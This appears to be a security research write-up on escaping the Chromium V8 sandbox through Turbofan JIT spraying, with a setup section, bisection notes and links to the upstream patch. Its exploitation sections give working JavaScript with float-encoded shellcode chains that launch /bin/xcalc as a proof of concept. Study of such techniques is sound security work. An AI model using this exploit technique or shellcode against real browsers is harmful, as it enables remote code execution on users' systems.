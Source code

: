 # Escaping V8 Sandbox via Turbofan JIT Spraying (100.0.4896.60 <= Chromium < 117.0.5938.62)

In this post, I will explain how to escape V8 sandbox to get RCE via Turbofan JIT spraying, while we have limited exploitation primitives like `addrof` and sandboxed AAR/AAW.

## Setup

- Ubuntu 22.04.5 LTS (WSL)
- [4512c6eb7189c21f39420ddf8d9ff4f05a4a39b4](https://chromium.googlesource.com/v8/v8/+/4512c6eb7189c21f39420ddf8d9ff4f05a4a39b4) (Jul 11th, 2023)

Run [`setup.zsh`](./setup.zsh) in your working directory.

## Exploitation

### Implement exploitation primitives

We can implement sandboxed [`addrof`](./pwn.js#L9) primitive which returns address of arbitrary JavaScript object in V8 sandbox, using `Sandbox.getAddressOf`. Also, we can implement sandboxed [AAR](./pwn.js#L14)/[AAW](./pwn.js#L26) primitives which read and write value at arbitrary address in V8 sandbox, using `Sandbox.MemoryView`.

### JIT (Just-In-Time) spraying

```js
// flags: --allow-natives-syntax --shell

function jit() { return [1.1, 2.2, 3.3]; }

for (let i = 0; i < 0x10000; i++) { jit(); jit(); } // compile via turbofan

% DebugPrint(jit);
```

![](img/1.png)

![](img/2.png)

![](img/3.png)

![](img/4.png)

`jit()` is a function which returns an array consisted of float numbers. After `jit()` is compiled via Turbofan, the numbers in returned array are inserted to the optimized code as raw numbers. It means that we can insert arbitrary 8-byte numbers to executable code region.

When `jit()` is called, `rip` moves to `instruction_start` pointer in `code` of `jit()`, which is inside of V8 sandbox. Using sandboxed AAW primitive, we can overwrite `instruction_start` pointer with arbitrary value, e.g. the address of number which we inserted to the optimized code. If so, the number acts like an 8-byte shellcode.

### Construct shellcode chain

With just 8-byte shellcode, we won't be able to do what we want to do. Instead, we can chain several short shellcodes using `jmp` instruction.

[`shellcode.py`](./shellcode.py)

![](img/5.png)

```js
// flags: --allow-natives-syntax --shell

function jit() {
    return [
        1.9711828996832522e-246, // 0xceb909090c03148
        1.971112871410787e-246, // 0xceb9050636cb866
        1.9711314215434657e-246, // 0xceb906163782fb8
        1.97118242283721e-246, // 0xceb909020e0c148
        1.9616425752617766e-246, // 0xceb6e69622f0548
        1.9711832695973408e-246, // 0xceb9090e7894850
        1.971182900582351e-246, // 0xceb909090f63148
        1.9711828996832522e-246, // 0xceb909090c03148
        1.971112653196158e-246, // 0xceb9050303ab866
        1.9710920957760286e-246, // 0xceb903d59414cb8
        1.97118242283721e-246, // 0xceb909020e0c148
        1.9532382542574046e-246, // 0xceb505349440548
        1.971183239760578e-246, // 0xceb9090e0894850
        1.9711128050518315e-246, // 0xceb905053db3148
        1.971182900255075e-246, // 0xceb909090e28948
        1.9710902863710406e-246, // 0xceb903bb0c03148
        -6.828527034370483e-229 // 0x909090909090050f
    ];
}

for (let i = 0; i < 0x10000; i++) { jit(); jit(); } // compile via turbofan

% DebugPrint(jit);
```

![](img/6.png)

If there are same numbers in the array which `jit()` returns, the optimized code remembers that number in register and reuse it later. If so, chain is broken and shellcode doesn't work. Therefore, we should slightly change the order of instructions or move the position of `nop` instructions to make sure that all numbers are different, like following:

```js
function jit() {
    return [
        1.9711828996832522e-246, // 0xceb909090c03148
        1.971112871410787e-246, // 0xceb9050636cb866
        1.9711314215434657e-246, // 0xceb906163782fb8
        1.97118242283721e-246, // 0xceb909020e0c148
        1.9616425752617766e-246, // 0xceb6e69622f0548
        1.9711832695973408e-246, // 0xceb9090e7894850
        1.971182900582351e-246, // 0xceb909090f63148
        1.9711831018987653e-246, // 0xceb9090c0314890 (edited)
        1.971112653196158e-246, // 0xceb9050303ab866
        1.9710920957760286e-246, // 0xceb903d59414cb8
        1.9710610293119303e-246, // 0xceb9020e0c14890 (edited)
        1.9532382542574046e-246, // 0xceb505349440548
        1.971183239760578e-246, // 0xceb9090e0894850
        1.9711128050518315e-246, // 0xceb905053db3148
        1.971182900255075e-246, // 0xceb909090e28948
        1.9710902863710406e-246, // 0xceb903bb0c03148
        -6.828527034370483e-229 // 0x909090909090050f
    ];
}
```

You have to install `/bin/xcalc` by running `sudo apt install -y x11-apps` before executing [`pwn.js`](./pwn.js) if you are using WSL.

![](img/7.png)

## Bisection

> [[ext-code-space] Enable external code space on x64 and desktop arm64](https://chromium.googlesource.com/v8/v8/+/7fc4868e477cc7cb7ef8c304fff214ea83498e7a) (Jan 24th, 2022)

[`v8_enable_external_code_space`](https://source.chromium.org/chromium/v8/v8/+/7fc4868e477cc7cb7ef8c304fff214ea83498e7a:BUILD.gn;l=415) was set to `true` in `x64` in the commit above, so [`code_entry_point`](https://source.chromium.org/chromium/v8/v8/+/7fc4868e477cc7cb7ef8c304fff214ea83498e7a:src/objects/code.h;l=86) in [`CodeDataContainer`](https://source.chromium.org/chromium/v8/v8/+/7fc4868e477cc7cb7ef8c304fff214ea83498e7a:src/objects/code.h;l=46) became available. As a result, the exploitation technique explained in this post was introduced.

## Patch

> [[sandbox] Enable code pointer sandboxing](https://chromium.googlesource.com/v8/v8/+/c8d039b05081b474ef751411a5c76ca01900e49a) (Jul 11th, 2023)
>
> [Revert "[sandbox] Enable code pointer sandboxing"](https://chromium.googlesource.com/v8/v8/+/bc795ebd90a5a7c957b644da5fac369eb88aa87a) (Jul 11th, 2023)
>
> [Reland "[sandbox] Enable code pointer sandboxing"](https://chromium.googlesource.com/v8/v8/+/7df23d5163a10a12e4b4262dd4e78cfb7ec97be0) (Jul 11th, 2023)
